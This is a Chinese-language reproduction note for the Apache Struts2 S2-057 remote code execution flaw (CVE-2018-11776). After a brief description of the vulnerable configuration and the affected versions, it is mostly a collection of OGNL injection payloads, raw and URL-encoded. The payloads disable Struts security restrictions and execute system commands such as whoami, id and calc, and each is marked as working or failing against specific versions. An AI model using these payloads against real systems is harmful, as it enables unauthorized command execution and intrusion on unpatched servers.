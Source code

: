 （CVE-2018-11776）s2-057
========================

一、漏洞简介
------------

当Struts2的配置满⾜以下条件时

-   alwaysSelectFullNamespace值为true

-   action元素未设置namespace属性或使⽤了通配符

namespace将由⽤户从uri传⼊并作为OGNL表达式计算最终造成任意命令执⾏漏洞。

    http://www.0-sec.org:8080/${1+1}/actionChain1.action

===\>

    http://www.0-sec.org:8080/2/register2.action

二、漏洞影响
------------

⼩于等于 Struts 2.3.34 与 Struts 2.5.16

三、复现过程
------------

POC
---

**回显是url**

2.3.34版本 RCE :white\_check\_mark:

    ${
    (#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}/actionChain1.action

urlencode===\>

    %24%7B%0A%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23a.getInputStream%28%29%29%29%7D/actionChain1.action

2.3.34版本RCE payload :white\_check\_mark:

    ${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#w=#ct.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()))).(#w.close())}/actionChain1.action

urlencode==\>

    /%24%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action

2.5.16版本 弹计算器 可能环境没配对 :x:

    ${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}/actionChain1.action

2.3.34版本弹计算器payload :x: 失败 2.5.16也失败

    ${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#cmd=@java.lang.Runtime@getRuntime().exec("woami"))}/actionChain1.action

2.3.20版本弹计算器 没环境

    ${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec('calc.exe')}/index.action

2.3.20版本RCE payload 没环境

    ${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()))).(#w.close())}

工具 RCE payload :x:

    %25%7b(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3f(%23_memberAccess%3d%23dm)%3a((%23container%3d%23context%5b%27com.opensymphony.xwork2.ActionContext.container%27%5d).(%23ognlUtil%3d%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23str%3d%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())).(%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse()).(%23res.addHeader(%27cmd%27%2c%23str))%7d
